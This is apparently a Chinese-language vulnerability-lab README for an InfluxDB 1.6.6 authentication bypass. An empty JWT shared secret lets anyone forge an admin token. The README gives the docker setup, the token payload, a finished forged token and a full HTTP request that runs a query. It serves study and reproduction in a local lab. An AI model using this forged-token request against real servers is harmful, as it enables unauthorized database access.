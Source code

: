 # influxdb未授权访问漏洞

influxdb是一款著名的时序数据库，其实用jwt作为鉴权方式。在用户开启了认证，但未设置参数`shared-secret`的情况下，jwt的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在influxdb中执行SQL语句。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 漏洞环境

执行如下命令启动influxdb 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![](1.png)

## 漏洞复现

我们借助<https://jwt.io/>来生成jwt token：


```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1676346267
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳。

最终生成的token：

![](2.png)

发送带有这个jwt token的数据包，可见SQL语句执行成功：

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)